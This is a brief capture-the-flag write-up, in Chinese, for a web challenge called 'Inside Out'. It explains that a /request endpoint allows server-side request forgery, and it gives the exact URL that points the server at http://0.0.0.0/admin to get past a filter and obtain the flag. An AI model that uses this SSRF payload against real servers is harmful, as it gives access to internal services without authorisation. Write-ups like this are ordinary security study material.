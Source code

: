 # Inside Out

SSRF，`/request`可以SSRF，f12发现有`/admin`，用SSRF绕一下waf就可以访问得到flag：

```
https://web-inside-out-b3d9f3b9.chal-2021.duc.tf/request?url=http://0.0.0.0/admin
```

